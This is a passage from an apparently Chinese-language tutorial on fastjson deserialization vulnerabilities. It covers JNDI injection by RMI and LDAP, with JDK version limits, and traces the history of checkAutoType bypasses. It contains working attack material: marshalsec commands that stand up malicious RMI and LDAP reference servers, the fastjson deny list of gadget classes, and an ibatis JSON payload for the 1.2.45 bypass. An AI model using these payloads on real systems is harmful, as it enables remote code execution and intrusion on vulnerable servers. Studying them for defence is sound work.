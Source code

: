 setValue:96,FieldDeserializer //反射调用传入类的set函数

deserialze:600, JavaBeanDeserializer 通过循环调用传入类的共有set,get,is函数

parseObject:368,DefaultJSONParser 解析传入的json字符串

利用：

JNDI注入

因为jndi注入的利用受jdk版本影响较大，所以在利用的时候还是要多尝试的。

注：利用之前当然要先确定一下漏洞是否存在，通过dnslog是个比较好用的法子。

1、基于rmi的利用方式

适用jdk版本：JDK 6u132, JDK 7u122, JDK 8u113之前。

利用方式：

```
java -cpmarshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServerhttp://127.0.0.1:8080/test/#Exploit
```

2、基于ldap的利用方式

适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。

利用方式：

```
java -cpmarshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServerhttp://127.0.0.1:8080/test/#Exploit
```

## 0X04fastjson漏洞绕过史

### 1.2.25-1.2.41绕过

fastjson在曝出第一版的RCE漏洞之后，官方立马做了更新，于是就迎来了一个新的主角，checkAutoType() ，在接下来的一系列绕过中都是和这个函数的斗智斗勇。

限制长度+黑名单，这个时候第一时间产生的想法自然是绕过黑名单，先看一下第一版的黑名单：

```
this.denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.apache.xalan,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
```

其实第一版的黑名单还是挺强大的，关于黑名单的绕过，就已知的目前只有一个依赖于ibatis的payload，当然因为ibatis在java里面的使用还是非常广泛的，所以这个payload危害也是比较大的，这也就是1.2.45的绕过

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties"{"data_source":"rmi://localhost:1099/Exploit"}}
```

